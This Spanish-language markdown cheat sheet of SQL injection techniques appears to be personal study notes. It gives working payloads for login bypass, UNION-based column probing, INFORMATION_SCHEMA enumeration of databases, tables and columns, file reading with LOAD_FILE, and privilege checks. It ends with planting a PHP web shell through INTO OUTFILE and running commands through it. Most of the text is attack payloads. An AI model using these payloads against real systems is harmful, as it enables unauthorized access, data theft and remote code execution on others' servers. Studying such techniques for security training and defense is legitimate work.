 
## Básico

-Consulta inicial
```
SELECT * FROM logins WHERE username=''' AND password='cualquiera';

```
-SQLi
```
SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password='cualquiera';
```
-Si no sabes el usuario
```
SELECT * FROM logins WHERE username='loquesea' OR '1'='1' AND password='algo' OR '1'='1';
```
te loggea como el primer usuario de la tabla(usualmente admin)

## Comentarios

-Bypass con comentario
```
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'algo';
```
IMPORTANTE: el comentario -- tiene que tener un espacio después, te puedes asegurar de ello usando -- -

## UNION

Te hace un mezcladillo con las dos tablas que le des, interesante cuando quieres leer info de otras tablas

-REQUISITOS: la tabla inicial con la tabla aderida con el union tienen que tener el mismo numero de columnas, si no dará error

-unión de tablas ports y ships
```
SELECT * FROM ports UNION SELECT * FROM ships;
```

-Si no sabes que tipo de dato almacena las columnas es mejor usas NULL pues se adapta a todas, y para saber cuantas columnas hay es bueno hacer union e ir probando un numero hasta que deje de dar error
```
UNION SELECT username, NULL, NULL, NULL FROM passwords-- - 
```
## DATABASE ENUMERATION

para saber en que base de datos estamos usar : database()
### Fingerprinting

![Uploading image.png…]()


### INFORMATION_SCHEMA

`INFORMATION_SCHEMA` es una **base de datos especial** que contiene metadatos (nombres de tablas, columnas, etc.) de **todas las bases de datos** del servidor.

Pero como está en otra base de datos, para acceder a sus tablas usamos el operador **`.`** (punto).  
Ejemplo:
```
SELECT * FROM my_database.users;
```

### SCHEMATA

Contiene todas las bases de datos. Para verlas:
```
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

### TABLES

La tabla `INFORMATION_SCHEMA.TABLES` contiene **una fila por cada tabla** que existe en **todas las bases de datos** del servidor.

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'clientes_db';
```


### COLUMNS

La tabla `INFORMATION_SCHEMA.COLUMNS` contiene información sobre **todas las columnas** de todas las tablas en todas las bases de datos.

```
SELECT COLUMN_NAME
FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'usuarios' AND TABLE_SCHEMA = 'clientes_db';
```

## Lectura de archivos

### Privilegios necesarios

En MySQL y MaríaDB necesitas de los privilegios 'FILE', para comprobarlo:
```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

### que usuario soy ? 

```
cn' UNION SELECT 1, USER(), 3, 4-- -
```

### Leer archivo

```
SELECT LOAD_FILE('/ruta/al/archivo');
```

## Escritura en archivos (RCE) 

(epico para web shell )

### Permisos necesarios

-FILE:
```
SELECT privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"
```
-secure_file_priv
```
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

- **Si devuelve NULL** → no puedes leer ni escribir archivos.
- **Si devuelve vacío** (`""`) → puedes leer/escribir en todo el sistema.
- **Si devuelve una ruta** (ej. `/var/lib/mysql-files`) → solo puedes escribir ahí.

### Web shell

-Payload
```
<?php system($_REQUEST[0]); ?>
```
-SQLi
```
cn' UNION SELECT "", '<?php system($_REQUEST[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```
-Luego puedes hacer:
```
http://target/shell.php?0=id
```
